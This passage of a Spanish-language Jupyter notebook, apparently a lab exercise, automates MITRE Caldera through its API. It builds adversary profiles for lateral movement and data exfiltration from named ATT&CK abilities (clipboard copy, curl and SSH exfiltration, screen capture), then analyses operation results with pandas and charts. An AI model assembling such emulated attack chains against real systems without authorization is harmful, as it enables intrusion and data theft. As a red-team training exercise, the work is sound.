    print('❌ OPERACIÓN D.2 FALLIDA')
print('='*80)

🔀 OPERACIÓN D.2: MOVIMIENTO LATERAL AVANZADO

📊 Abilities de movimiento lateral (LINUX): 2

   ✅ Sin requirements (independientes): 2
   🔗 Con requirements (dependientes): 0

📌 Paso 1 - Base (sin dependencies): 2 abilities
   ✅ T1021.004 - Start 54ndc47
   ✅ T1570 - Copy 54ndc47 (WinRM and SCP)

⚠️  Paso 2 - Sin abilities avanzados disponibles

⚠️  Paso 3 - No hay más abilities disponibles

✅ Total abilities MOVIMIENTO LATERAL: 2
   (Máximo disponible: 2)

📝 CREANDO ADVERSARIO EN CALDERA...
✅ POST exitoso - Adversario creado
   HTTP 200
   ID: 13c0d3c6-a7db-467a-9c4f-c9df21ff2ebb

--------------------------------------------------------------------------------
🔍 VERIFICANDO CREACIÓN EN CALDERA (GET)...
--------------------------------------------------------------------------------
✅ GET exitoso - Adversario verificado en Caldera
   HTTP 200

📋 DETALLES DEL ADVERSARIO:
   Nombre: Lab-LateralMovement-Advanced
   ID: 13c0d3c6-a7db-467a-9c4f-c9df21ff2ebb
   Descripción: Adversario avanzad

### D.3 – Exfiltración de Datos

La exfiltración es la fase final donde los datos robados salen del entorno comprometido.

**Técnicas:**
| Técnica | ID | Canal |
|---------|-----|-------|
| Exfiltration Over C2 | T1041 | Canal C2 HTTP existente |
| Automated Exfiltration | T1020 | Scripts automáticos |
| Data Staged | T1074 | Agregación antes de exfiltrar |

In [25]:
# ── D.3 EXFILTRACIÓN AVANZADA - CON VERIFICACIÓN API ──────────────────────
print("📤 OPERACIÓN D.3: EXFILTRACIÓN DE DATOS AVANZADA\n")

# Filtrar abilities de exfiltración y colección LINUX
exfil_tactics = {'exfiltration', 'collection'}
exfil_ab = [a for a in abilities 
            if a.get('tactic', '') in exfil_tactics
            and any('linux' in str(e.get('platform', '')).lower() 
                   for e in a.get('executors', []) if isinstance(e, dict))]

print(f'📊 Abilities de exfiltración/colección (LINUX): {len(exfil_ab)}\n')

# Analizar requirements
exfil_with_reqs = []
exfil_no_reqs = []

for ab in exfil_ab:
    reqs = ab.get('requirements', [])
    if reqs:
        exfil_with_reqs.append(ab)
    else:
        exfil_no_reqs.append(ab)

print(f'   ✅ Sin requirements (independientes): {len(exfil_no_reqs)}')
print(f'   🔗 Con requirements (dependientes): {len(exfil_with_reqs)}')

# ESTRATEGIA AVANZADA
selected_exfil = []

# Paso 1: Base (sin requirements)
if exfil_no_reqs:
    base_count = min(random.randint(1, 2), len(exfil_no_reqs))
    base_abs = random.sample(exfil_no_reqs, base_count)
    selected_exfil.extend([ab.get('ability_id', '') for ab in base_abs])
    print(f'\n📌 Paso 1 - Base (sin dependencies): {base_count} abilities')
    for ab in base_abs:
        print(f'   ✅ {ab.get("technique_id", "?")} - {ab.get("name", "N/A")[:45]}')
else:
    print(f'\n⚠️  Paso 1 - Sin abilities independientes disponibles')

# Paso 2: Avanzados (con requirements resolubles)
valid_with_reqs = []
for ab in exfil_with_reqs:
    reqs = ab.get('requirements', [])
    if any(req in selected_exfil or req == 'paw' for req in reqs):
        valid_with_reqs.append(ab)

if valid_with_reqs:
    advanced_count = min(random.randint(1, 3), len(valid_with_reqs))
    advanced_abs = random.sample(valid_with_reqs, advanced_count)
    selected_exfil.extend([ab.get('ability_id', '') for ab in advanced_abs])
    print(f'\n📌 Paso 2 - Avanzados (con dependencies resolubles): {advanced_count} abilities')
    for ab in advanced_abs:
        reqs = ab.get('requirements', [])
        print(f'   🔗 {ab.get("technique_id", "?")} - {ab.get("name", "N/A")[:35]} | requiere: {reqs}')
else:
    print(f'\n⚠️  Paso 2 - Sin abilities avanzados disponibles')

# Paso 3: Completar si es necesario
if len(selected_exfil) < 5 and exfil_no_reqs:
    remaining = [ab for ab in exfil_no_reqs 
                 if ab.get('ability_id', '') not in selected_exfil]
    if remaining:
        additional_count = min(len(remaining), 5 - len(selected_exfil))
        additional_abs = random.sample(remaining, additional_count)
        selected_exfil.extend([ab.get('ability_id', '') for ab in additional_abs])
        print(f'\n📌 Paso 3 - Completar (más independientes): {additional_count} abilities')
        for ab in additional_abs:
            print(f'   ✅ {ab.get("technique_id", "?")} - {ab.get("name", "N/A")[:45]}')
    else:
        print(f'\n⚠️  Paso 3 - No hay más abilities disponibles')

print(f'\n✅ Total abilities EXFILTRACIÓN: {len(selected_exfil)}')
print(f'   (Máximo disponible: {len(exfil_ab)})')

# ============================================================================
# 1. CREAR ADVERSARIO
# ============================================================================
print('\n' + '='*80)
print('📝 CREANDO ADVERSARIO EN CALDERA...')
print('='*80)

adv_exfil_id = None
adversary_exfil = {
    'name': 'Lab-Exfiltration-Advanced',
    'description': f'Adversario avanzado: exfiltración con {len(selected_exfil)} abilities en cadena compatible',
    'atomic_ordering': selected_exfil
}

try:
    r = requests.post(f'{CALDERA_URL}/api/v2/adversaries',
                      headers=HEADERS,
                      json=adversary_exfil,
                      timeout=10)
    
    if r.status_code in (200, 201):
        adv_exfil = r.json()
        adv_exfil_id = adv_exfil.get('adversary_id', adv_exfil.get('id', ''))
        print(f'✅ POST exitoso - Adversario creado')
        print(f'   HTTP {r.status_code}')
        print(f'   ID: {adv_exfil_id}')
    else:
        print(f'❌ Error en POST - HTTP {r.status_code}')
        print(f'   {r.text[:300]}')
        adv_exfil_id = None
except Exception as e:
    print(f'❌ Error en POST: {e}')
    adv_exfil_id = None

# ============================================================================
# 2. VERIFICAR CON GET
# ============================================================================
if adv_exfil_id:
    print('\n' + '-'*80)
    print('🔍 VERIFICANDO CREACIÓN EN CALDERA (GET)...')
    print('-'*80)
    
    try:
        r_verify = requests.get(f'{CALDERA_URL}/api/v2/adversaries/{adv_exfil_id}',
                                headers=HEADERS,
                                timeout=10)
        
        if r_verify.status_code == 200:
            adv_data = r_verify.json()
            print(f'✅ GET exitoso - Adversario verificado en Caldera')
            print(f'   HTTP {r_verify.status_code}\n')
            
            print('📋 DETALLES DEL ADVERSARIO:')
            print(f'   Nombre: {adv_data.get("name", "N/A")}')
            print(f'   ID: {adv_data.get("adversary_id", adv_data.get("id", "N/A"))}')
            print(f'   Descripción: {adv_data.get("description", "N/A")[:70]}...')
            print(f'   Abilities: {len(adv_data.get("atomic_ordering", []))}')
            print(f'   Creado: {adv_data.get("created", "N/A")}')
            
            atomic_ordering = adv_data.get('atomic_ordering', [])
            print(f'\n🎯 ABILITIES INCLUIDOS ({len(atomic_ordering)}):')
            for idx, ability_id in enumerate(atomic_ordering, 1):
                ab = ab_index.get(ability_id, {})
                tid = ab.get('technique_id', '?')
                name = ab.get('name', ability_id)[:50]
                tact = ab.get('tactic', '?')
                print(f'   {idx}. [{tid}] {name:50s} ({tact})')
            
            print(f'\n✅ VERIFICACIÓN COMPLETADA - Adversario ACTIVO en Caldera')
        else:
            print(f'⚠️  Error en GET - HTTP {r_verify.status_code}')
    except Exception as e:
        print(f'❌ Error en GET: {e}')
else:
    print('\n❌ No se puede verificar - Adversario no fue creado')

print('\n' + '='*80)
if adv_exfil_id:
    print(f'🚀 OPERACIÓN D.3 LISTA - ID: {adv_exfil_id}')
else:
    print('❌ OPERACIÓN D.3 FALLIDA')
print('='*80)

📤 OPERACIÓN D.3: EXFILTRACIÓN DE DATOS AVANZADA

📊 Abilities de exfiltración/colección (LINUX): 47

   ✅ Sin requirements (independientes): 34
   🔗 Con requirements (dependientes): 13

📌 Paso 1 - Base (sin dependencies): 1 abilities
   ✅ T1115 - Copy Clipboard

⚠️  Paso 2 - Sin abilities avanzados disponibles

📌 Paso 3 - Completar (más independientes): 4 abilities
   ✅ T1048.002 - Exfiltrate data HTTPS using curl freebsd,linu
   ✅ T1113 - Capture Linux Desktop using Import Tool (free
   ✅ T1048 - Exfiltration Over Alternative Protocol - SSH
   ✅ T1074.001 - Stage data from Discovery.sh

✅ Total abilities EXFILTRACIÓN: 5
   (Máximo disponible: 47)

📝 CREANDO ADVERSARIO EN CALDERA...
✅ POST exitoso - Adversario creado
   HTTP 200
   ID: 5fe32366-bda0-4021-b9b6-103844511336

--------------------------------------------------------------------------------
🔍 VERIFICANDO CREACIÓN EN CALDERA (GET)...
--------------------------------------------------------------------------------
✅ GET exitos

## Sección E: Análisis con Python/Pandas 📊

### E.1 – Extracción de Datos de Operaciones

In [26]:
# ── E.1 Obtener todas las operaciones y construir DataFrame ──────────────────
try:
    r = requests.get(f'{CALDERA_URL}/api/v2/operations', headers=HEADERS, timeout=10)
    r.raise_for_status()
    all_operations = r.json()
    print(f'📋 Total operaciones en el servidor: {len(all_operations)}')
except Exception as e:
    all_operations = []
    print(f'❌ Error: {e}')

# Construir DataFrame
ops_rows = []
for op in all_operations:
    chains   = op.get('chain', [])
    tactics  = list({c.get('ability',{}).get('tactic','?') for c in chains})
    n_ok     = sum(1 for c in chains if c.get('status') == 0)
    n_total  = len(chains)
    start    = op.get('start', '')
    finish   = op.get('finish', '')
    ops_rows.append({
        'name':        op.get('name', 'N/A'),
        'state':       op.get('state', 'N/A'),
        'group':       op.get('group', 'N/A'),
        'tactics':     ', '.join(tactics),
        'total_steps': n_total,
        'ok_steps':    n_ok,
        'fail_steps':  n_total - n_ok,
        'start':       start,
        'finish':      finish
    })

df_ops = pd.DataFrame(ops_rows)
print(f'\nDataFrame de operaciones: {df_ops.shape}')
if not df_ops.empty:
    print(df_ops.to_string(index=False))

📋 Total operaciones en el servidor: 9

DataFrame de operaciones: (9, 9)
                     name    state group    tactics  total_steps  ok_steps  fail_steps                start finish
  Lab-APT-Campaign-095802 finished   red                       0         0           0 2026-07-29T09:58:02Z       
      Lab-CustomOp-095809 finished   red                       0         0           0 2026-07-29T09:58:09Z       
  Lab-Op-Discovery-095558 finished   red                       0         0           0 2026-07-29T09:55:58Z       
  Lab-Op-Discovery-095751 finished   red                       0         0           0 2026-07-29T09:57:51Z       
  Lab-Op-Discovery-101440 finished   red  discovery            3         2           1 2026-07-29T10:14:40Z       
      Lab-Op-Exfil-095756 finished   red                       0         0           0 2026-07-29T09:57:56Z       
Lab-Op-MultiTactic-095751 finished   red                       0         0           0 2026-07-29T09:57:51Z       
Lab-Op-M

In [27]:
# ── E.2 Análisis de técnicas y tácticas ──────────────────────────────────────
# Aplanar todos los links de todas las operaciones
all_links = []
for op in all_operations:
    op_name = op.get('name', 'N/A')
    for link in op.get('chain', []):
        ab     = link.get('ability', {})
        status = link.get('status', -99)
        all_links.append({
            'operation':    op_name,
            'ability':      ab.get('name', 'N/A'),
            'technique_id': ab.get('technique_id', 'N/A'),
            'tactic':       ab.get('tactic', 'N/A'),
            'status':       status,
            'success':      status == 0
        })

df_links = pd.DataFrame(all_links)
print(f'Total de ejecuciones de abilities: {len(df_links)}')

if not df_links.empty:
    print('\n── Tasa de éxito por táctica ──')
    tactic_summary = df_links.groupby('tactic').agg(
        total=('success', 'count'),
        exitosos=('success', 'sum')
    ).reset_index()
    tactic_summary['tasa_%'] = (tactic_summary['exitosos'] / tactic_summary['total'] * 100).round(1)
    print(tactic_summary.to_string(index=False))

Total de ejecuciones de abilities: 7

── Tasa de éxito por táctica ──
    tactic  total  exitosos  tasa_%
collection      4         1    25.0
 discovery      3         2    66.7


/tmp/ipykernel_1869/83841635.py:63: UserWarning: Glyph 128308 (\N{LARGE RED CIRCLE}) missing from font(s) DejaVu Sans.
  plt.tight_layout()
/tmp/ipykernel_1869/83841635.py:64: UserWarning: Glyph 128308 (\N{LARGE RED CIRCLE}) missing from font(s) DejaVu Sans.
  plt.savefig('caldera_analysis.png', dpi=120, bbox_inches='tight')
/home/vagrant/jupyter-env/lib/python3.10/site-packages/IPython/core/pylabtools.py:170: UserWarning: Glyph 128308 (\N{LARGE RED CIRCLE}) missing from font(s) DejaVu Sans.
  fig.canvas.print_figure(bytes_io, **kw)




💾 Gráfico guardado: caldera_analysis.png


In [28]:
# ── E.3 Visualización – 4 gráficos ───────────────────────────────────────────
fig, axes = plt.subplots(2, 2, figsize=(15, 10))
fig.suptitle('🔴 Análisis de Operaciones Caldera', fontsize=15, fontweight='bold')

# Gráfico 1: Frecuencia de tácticas
ax1 = axes[0, 0]
if not df_links.empty:
    tc = df_links['tactic'].value_counts()
    ax1.barh(tc.index, tc.values, color='steelblue', edgecolor='black', linewidth=0.5)
    ax1.set_title('Frecuencia de Tácticas')
    ax1.set_xlabel('Ejecuciones')
    ax1.grid(axis='x', alpha=0.3)
else:
    ax1.text(0.5, 0.5, 'Sin datos', ha='center', va='center', transform=ax1.transAxes)
    ax1.set_title('Frecuencia de Tácticas')

# Gráfico 2: Tasa éxito/fallo global
ax2 = axes[0, 1]
if not df_links.empty:
    total_ok   = df_links['success'].sum()
    total_fail = len(df_links) - total_ok
    if total_ok + total_fail > 0:
        ax2.pie([total_ok, total_fail],
                labels=['Exitosos', 'Fallidos/Skip'],
                colors=['#2ecc71', '#e74c3c'],
                autopct='%1.1f%%', startangle=90)
    ax2.set_title('Tasa de Éxito Global')
else:
    ax2.text(0.5, 0.5, 'Sin datos', ha='center', va='center', transform=ax2.transAxes)
    ax2.set_title('Tasa de Éxito Global')

# Gráfico 3: Operaciones por estado
ax3 = axes[1, 0]
if not df_ops.empty:
    state_counts = df_ops['state'].value_counts()
    ax3.bar(state_counts.index, state_counts.values,
            color=['#3498db', '#2ecc71', '#e74c3c', '#f39c12'][:len(state_counts)],
            edgecolor='black', linewidth=0.5)
    ax3.set_title('Operaciones por Estado')
    ax3.set_ylabel('Número de operaciones')
    ax3.grid(axis='y', alpha=0.3)
else:
    ax3.text(0.5, 0.5, 'Sin datos', ha='center', va='center', transform=ax3.transAxes)
    ax3.set_title('Operaciones por Estado')

# Gráfico 4: Tasa de éxito por táctica (barras)
ax4 = axes[1, 1]
if not df_links.empty and not tactic_summary.empty:
    colors_bar = ['#2ecc71' if v >= 50 else '#e74c3c' for v in tactic_summary['tasa_%']]
    ax4.bar(range(len(tactic_summary)), tactic_summary['tasa_%'],
            color=colors_bar, edgecolor='black', linewidth=0.5)
    ax4.set_xticks(range(len(tactic_summary)))
    ax4.set_xticklabels(tactic_summary['tactic'], rotation=30, ha='right', fontsize=8)
    ax4.set_title('Tasa de Éxito por Táctica (%)')
    ax4.set_ylabel('%')
    ax4.axhline(y=50, color='orange', linestyle='--', alpha=0.7, label='50%')
    ax4.legend(fontsize=8)
    ax4.grid(axis='y', alpha=0.3)
else:
    ax4.text(0.5, 0.5, 'Sin datos', ha='center', va='center', transform=ax4.transAxes)
    ax4.set_title('Tasa de Éxito por Táctica')

plt.tight_layout()
plt.savefig('caldera_analysis.png', dpi=120, bbox_inches='tight')
plt.show()
print('💾 Gráfico guardado: caldera_analysis.png')